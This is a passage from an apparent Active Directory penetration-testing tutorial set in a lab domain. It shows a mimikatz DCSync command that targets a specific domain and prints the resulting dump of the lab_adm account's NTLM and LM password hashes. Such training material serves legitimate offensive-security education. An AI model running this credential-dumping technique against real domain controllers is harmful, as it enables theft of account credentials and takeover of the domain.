 ```bash
Hash NTLM: 663715a1a8b957e8e9943cc98ea451b6

ntlm- 0: 663715a1a8b957e8e9943cc98ea451b6

ntlm- 1: 663715a1a8b957e8e9943cc98ea451b6

lm  - 0: 6053227db44e996fe16b107d9d1e95a0

```

When dealing with multiple domains and our target domain is not the same as the user's domain, we will need to specify the **exact domain** to perform the DCSync operation on the particular domain controller. The command for this would look like the following:  


```bash

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL



[DC] 'INLANEFREIGHT.LOCAL' will be the domain

[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server

[DC] 'INLANEFREIGHT\lab_adm' will be the user account

[rpc] Service  : ldap

[rpc] AuthnSvc : GSS_NEGOTIATE (9)



Object RDN           : lab_adm



** SAM ACCOUNT **



SAM Username         : lab_adm

Account Type         : 30000000 ( USER_OBJECT )

User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )

Account expiration   :

Password last change : 2/27/2022 10:53:21 PM

Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-1001

Object Relative ID   : 1001



Credentials:

Hash NTLM: 663715a1a8b957e8e9943cc98ea451b6

ntlm- 0: 663715a1a8b957e8e9943cc98ea451b6

ntlm- 1: 663715a1a8b957e8e9943cc98ea451b6
```